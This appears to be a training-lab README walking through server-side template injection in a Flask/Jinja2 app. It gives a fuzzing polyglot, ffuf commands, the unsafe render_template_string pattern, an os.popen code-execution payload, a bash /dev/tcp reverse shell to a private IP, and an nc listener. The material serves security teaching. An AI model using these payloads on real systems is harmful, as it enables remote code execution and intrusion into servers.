






# SSTI Audition Lab

## Welcome!

In this lab we will be taking a look at Server-side Template Injection; a web vulnerability that is common among many web frameworks that use templates. Please feel free to step outside of the instructions and play around with the injection and various features you can abuse with it. 

Template engines are designed to help frameworks generate web pages by combining fixed templates with input data. Server-side template injection occurs when a template renders in a web application without any filtering, allowing us, the attacker, to execute arbitrary code on the server. In this lab, we will be taking a look at the Jinja2 framework in python and how to abuse SSTI to gain a reverse shell against the web server.

## Discovery

Heading over to Tech Guru's website we can find an a field requesting for our name for personalized insights. Because this field is a prime canidate for server side template injection. Let's go ahead and try to fuzz for it. The simplest approach would be to first use a polyglot to see how the application interacts with our request.

```python
${{<%[%'"}}%\
```



Polyglots are great because it tests all characters that could potentially make an application vulnerable. What we are looking for here is to trigger an error or a behavior that is unexpected.

After clicking "Get Insights", we will execute the polyglot and recieve a flask error. Excellent! Now we know exactly what template the application is using.



In this case, we now know that the application we are interacting with is written in Python. Additionally, we know that the template it is using is Jinja2, as annotated by the `jinja2.exceptions.TemplateSyntaxError`.

In other applications outside of this lab, if the above did not result in an error or some other indicator that the application behaved unexpectedly. We may use the `ffuf` tool to fuzz instead. After we have opened burpsuite (You may type burpsuite in console), we may run the following:

```bash
#The wget command is just to grab the fuzzing file we will be using, it contains code for all templates.
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
ffuf -u www.victim-website.com/ -x FUZZ -w ssti.fuzz -replay-proxy http://127.0.0.1:8080/
```
You may manually analyze the responses to see what returns "49" (As indicated by 7*7) or the id of the user.

2 great resources for figuring out which template injection it is are the following:

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Since we do not need to use ffuf as we already know the template that is in use. We can look into specifics on how the Jinja2 template works.

## Understanding the Jinja2 Template
https://jinja.palletsprojects.com/en/3.1.x/
"Jinja is a fast, expressive, extensible templating engine. Special placeholders in the template allow writing code similar to Python syntax. Then the template is passed data to render the final document."

Jinja2 is typically used in the django and flask frameworks. 

If the app blindly takes user input and renders it in the application, it may be vulnerable to arbitrary code injection. Let's take a look at what this looks like in Python.

```python
greeting = render_template_string(f"Hello, {name}!")
```

The `render_template_string` function is rendering the template "{name}" without any filtering. Because of this, we can make the application evaluate any code that we provide it.

## Discovery of Python Methods with SSTI (Flask / Jinja2)

Some template frameworks allow you to freely execute arbitrary code, Jinja2 however, does not. We must first figure out what methods we can access.

Firstly, we will attempt to access a simple built-in method such as `upper()`

`{{"test".upper()}}`


We can see that "test" is in all-caps. Knowing that we can now access built-in methods, we can leverage this to execute any code from any module that is built into python.

the `os` module in python allows python to interface with the operating system. This is a prime target for us as it allows us to execute code directly on the target host.

There are several ways to access a built-in method, however, we will use something simple and obtain remote code execution that way. You will always want to start simple and make sure you can get a working proof of concept exploit before expanding on it into something more complicated like a reverse shell. For now, we will just obtain the id of the user the flask application is running as.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



Great! As you can see, we can successfully execute linux commands. Now let's get a reverse shell!

We will configure our command first to copy over into our SSTI Injection.

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/4444 0>&1"
```

You will want to change the IP address `x.x.x.x`. You may get your IP address by typing `ip addr`.

After you have configured your SSTI Injection, we will want create the full PoC (Proof of Concept) in a note to copy paste.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.112/4444 0>&1"').read() }}```
```

Now that we have our payload built, we may start up a listener on our attack machine.

```bash
nc -nvlp 4444
```



After you execute the payload on the website, you should obtain a shell from the web server.





Excellent, we now have a reverse shell on the web server!